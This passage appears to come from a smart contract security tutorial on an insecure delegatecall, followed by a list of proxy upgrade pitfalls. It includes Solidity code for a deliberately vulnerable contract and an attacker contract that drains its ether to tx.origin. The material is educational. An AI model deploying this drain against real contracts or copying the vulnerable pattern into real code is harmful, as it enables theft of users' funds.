 ## Insecure Delegate Call

[Delegatecall](https://www.rareskills.io/post/delegatecall) should never be used with untrusted contracts as it hands over all control to the delegatecallee. In this example, the untrusted contract steals all the ether in the contract.

```solidity
contract UntrustedDelegateCall {
    constructor() payable {
        require(msg.value == 1 ether);
    }

    function doDelegateCall(address _delegate, bytes calldata data) public {
        (bool ok, ) = _delegate.delegatecall(data);
        require(ok, "delegatecall failed");
    }

}

contract StealEther {
    function steal() public {
        // you could also selfdestruct here 
        // if you really wanted to be mean
        (bool ok,) = tx.origin.call{value: address(this).balance}("");
        require(ok);
    }

    function attack(address victim) public {
        UntrustedDelegateCall(victim).doDelegateCall(
            address(this),
            abi.encodeWithSignature("steal()"));
    }
}
```

## Upgrade bugs related to proxies

We can't do justice to this topic in a single section. Most upgrade bugs can be generally avoided by using the hardhat plugin from Openzeppelin and reading about what issues it protects against. ([https://docs.openzeppelin.com/upgrades-plugins/1.x/](https://docs.openzeppelin.com/upgrades-plugins/1.x/)).

As a quick summary, here are issues related to smart contract upgrades:

- selfdestruct and delegatecall should not be used inside implementation contracts
- care must be taken that storage variables never overwrite each other during upgrades
- calling external libraries should be avoided in implementation contracts because it isn't possible to predict how they will affect storage access
- deployer must never neglect to call the initialization function
- not including a gap variable in base contracts to prevent storage collision when new variables are added to the base contract (this is handled by the hardhat plugin automatically)
- the values in immutable variables are not preserved between upgrades
- doing anything in the constructor is highly discouraged because future upgrades would have to carry out identical constructor logic to maintain compatibility.
